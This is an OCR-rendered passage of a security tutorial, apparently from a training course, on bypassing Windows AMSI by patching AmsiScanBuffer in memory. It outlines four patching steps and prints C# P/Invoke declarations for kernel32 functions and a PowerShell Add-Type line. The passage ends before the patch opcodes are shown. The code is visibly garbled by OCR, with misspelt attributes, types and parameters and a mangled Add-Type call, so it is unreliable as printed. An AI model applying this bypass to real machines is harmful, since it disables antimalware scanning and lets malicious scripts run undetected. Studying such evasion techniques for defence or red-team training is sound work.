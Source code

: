 **AmsiScanBuffer** is vulnerable because **amsi**.**dll** is loaded into the PowerShell process at startup; our session has the same permission level as the utility.

**AmsiScanBuffer** will scan a “**buffer**” of suspected code and report it to **amsi**.**dll** to determine the response. We can control this function and overwrite the buffer with a clean return code. To identify the buffer needed for the return code, we need to do some reverse engineering; luckily, this research and reverse engineering have already been done. We have the exact return code we need to obtain a clean response!

We will break down a code snippet modified by **BC-Security** and inspired by **Tal Liberman**. **RastaMouse** also has a similar bypass written in C# that uses the same technique.

At a high-level AMSI patching can be broken up into four steps:

> **1.** Obtain handle of **amsi.dll**

> 2. Get process address of **AmsiScanBuffer**

> 3. Modify memory protections of **AmsiScanBuffer**

> 4. Write opcodes to **AmsiScanBuffer**

We first need to load in any external libraries or API calls we want to utilize; we will load **GetProcAddress**, **GetModuleHandle**, and **VirtualProtect** from **kernel32** using **p/invoke**.

> **\[DLLImport(“”kernel32")] // Import DLL where API call is stored**

> **public static extern IntPtr GetProcAddress( // API Call to import**

> **IntPtr hModule, // Handle to DLL module**

> **string procName // function or variable to obtain**

> **);**

> **\[DILImport(“kernel32”)]**

> **public static extern IntPtr GetModuleHandle(**

> **string IpModuleName // Module to obtain handle**

> **);**

> **\[DllImport(“kernel32” “)]**

> **public static extern bool VirtualProtect(**

> **IntPtr lpAddress, // Address of region to Modify**

> **UIntPtr dwSize, // Size of region**

> **utnt flNewProtect, // Memory protection options**

> **out uint lpfl0ldProtect // Pointer to store previous protection options**

> **);**

The functions are now defined, but we need to load the API calls using **Add-Type**. This cmdlet will load the functions with a proper type and namespace that will allow the functions to be called.

> **$Kernel32 = Add-Type Member Definition MethodDefinition -Name ‘Kernel32’ -NameSpace ‘Win32’ -PassThru;**
